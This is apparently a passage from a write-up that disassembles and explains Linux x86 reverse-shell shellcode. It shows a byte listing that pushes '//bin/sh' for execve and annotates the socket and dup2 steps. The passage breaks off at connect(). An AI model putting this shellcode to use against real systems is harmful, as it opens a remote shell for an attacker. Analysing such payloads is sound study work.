 ```
00000026  50                push eax
00000027  51                push ecx
00000028  53                push ebx
00000029  B303              mov bl,0x3
0000002B  89E1              mov ecx,esp
0000002D  CD80              int 0x80
0000002F  52                push edx
00000030  686E2F7368        push dword 0x68732f6e
00000035  682F2F6269        push dword 0x69622f2f
0000003A  89E3              mov ebx,esp
0000003C  52                push edx
0000003D  53                push ebx
0000003E  89E1              mov ecx,esp
00000040  B00B              mov al,0xb
00000042  CD80              int 0x80
```

## Stepping through the shellcode

First, registers are cleared. The `mul` instruction is a shortcut to zero out `eax` and `edx` with a single instruction.
```nasm
xor ebx,ebx           ; ebx = 0
mul ebx               ; eax = 0, edx = 0
```

`int socket(int domain, int type, int protocol);`

The socket is created:
- AF_INET = IP
- SOCK_STREAM = tcp

```nasm
inc ebx               ; ebx = 1 (SYS_SOCKET)
push ebx              ; socket() -> type = 1 (SOCK_STREAM)
push byte +0x2        ; socket() -> domain = 2 (AF_INET)
mov ecx,esp           ; socketcall() -> *args
mov al,0x66           ; sys_socketcall -> SYS_SOCKET
int 0x80
```

`int dup2(int oldfd, int newfd)`

stdin, stdout and stderr are duplicated to the network socket:

```nasm
xchg eax,ebx          ; eax = 1, ebx = 3 (fd)
pop ecx               ; ecx = 2
mov al,0x3f           ; sys_dup2
int 0x80              ;
dec ecx               ;
jns 0x11              ; loop through stdin, stdout, stderr
```

`int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen)`
